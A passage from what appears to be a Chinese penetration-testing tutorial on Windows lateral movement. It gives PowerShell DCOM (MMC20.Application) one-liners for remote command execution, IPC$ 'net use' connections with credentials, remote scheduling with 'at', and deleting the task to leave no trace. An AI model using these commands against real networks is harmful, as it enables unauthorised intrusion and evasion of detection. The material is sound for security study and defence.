 于是乎，我们就能理所应当的想到这个东西可以被用于本地任意命令执行，就像这样

```
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application")).Document.ActiveView.Executeshellcommand('cmd.exe',$null,"/c calc.exe","Restored")
```

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/image-20210223161252812.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/image-20210223161252812.png)

我们进一步发掘其横向移动的能力

我们知道 DCOM 具有通过网络与对象进行交互的能力，在我们是管理员的前提下我们可以使用 GetTypeFromProgID() 与 powershell 进行 DCOM 远程交互。  
GetTypeFromProgID("COM","远程 ip") 即可指定与哪一个远程 IP 进行交互。所以我们可以把 payload 改造成这样，进而可以在其他机器上进行任意命令执行，从而达到横向移动的目的

```
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application" ，“远程ip”)).Document.ActiveView.Executeshellcommand('cmd.exe',$null,"/c calc.exe","Restored")
```

ipc
---

### ipc 简介

IPC$ 是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，即能建立链接，达到访问远程计算机的目的。利用这个链接不仅可以访问目标机器中的文件，进行上传下载等操作，还能在目标机器上执行部分命令。

```
net use \\ip\ipc$ "password" /user:username
```

如果账户和口令正确，就建立好了链接。

建立好链接后就能执行以下命令

```
dir \\192.168.183.130\c$ 列出C盘
copy C:\Users\douser\Desktop\whoami.txt \\192.168.183.130\c$ 上传文件
tasklist /S 192.168.183.130 /U administrator /P liu78963 列出某IP上的进程信息，/U指定哪个用户执行该命令，/p指定该用户密码
net use \\IP /del /y 删除链接
net use 查看已建立的ipc链接
```

### 利用 ipc 横向移动

#### at

```
at \\192.168.183.130 17:05:00 cmd.exe /c "<命令>"
at \\192.168.183.130 17:05:00 powershell.exe -c "<命令>"
```

关于时间的获得，可以使用 net time \\IP 获得。

计划任务执行后需要删除，不留痕迹

```
at \\192.168.183.130 1 /delete  //1为任务的ID
```

